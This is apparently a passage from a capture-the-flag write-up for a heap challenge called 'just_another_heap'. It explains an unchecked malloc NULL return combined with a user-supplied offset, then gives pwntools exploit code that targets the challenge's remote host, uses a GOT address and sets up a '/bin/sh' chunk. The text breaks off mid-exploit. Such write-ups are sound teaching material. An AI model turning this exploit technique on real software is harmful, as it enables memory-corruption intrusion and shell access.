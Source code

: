 The vulnerability was that the program doesn’t check whether the pointer returned by the malloc is valid or not, the program also allow us to enter a, kind of, offset which will be added to the pointer returned by the malloc, since there’s no check for invalid/NULL return value from the malloc, we can exploit this one by giving a large size of the malloc which will return NULL, then we can give the address of the global array which stores the name pointer, what we will exactly do here is explained as follows:-

```py

#!/usr/bin/env python3

from pwn import *

e = ELF("./just_another_heap") 
libc = ELF("./libc.so.6")

#p = process("./just_another_heap", env={"LD_PRELOAD": "./libc.so.6"})
p = remote("dctf-chall-just-another-heap.westeurope.azurecontainer.io", 7481)

def create(idx, name, size, empty, data, important, recent):
    p.sendlineafter("Exit\n", "1")
    p.sendlineafter("\n", str(idx))
    p.sendafter("name:\n", name)
    p.sendlineafter("memory\n", str(size))
    p.sendlineafter("them.\n", str(empty))
    p.sendafter("write\n", data)

    if important:
        p.sendlineafter("\n", "Y")
    else:
        p.sendlineafter("\n", "N")

    if recent:
        p.sendlineafter("\n", "Y")
    else:
        p.sendlineafter("\n", "N")

def forget(idx):
    p.sendlineafter("Exit\n", "3")
    p.sendlineafter("forget?\n", str(idx))

def _list():
    p.sendlineafter("Exit\n", "5")
```

With the wrapper functions, we select the address where the very last name would be stored, which in our case is 0x6022a8

```py

memory_ptr_last_idx = 0x6022a8
puts_got = e.got["puts"]
huge = 0xFFFF0FFFFFFF
```
Then, we firstly create a chunk which will act as a decoy for performing rest of the exploit, we create this chunk, making the 0x6022a8 will point to the BBBBBBBBBBBBBBBB. We will also create a chunk with the name being /bin/sh\x00
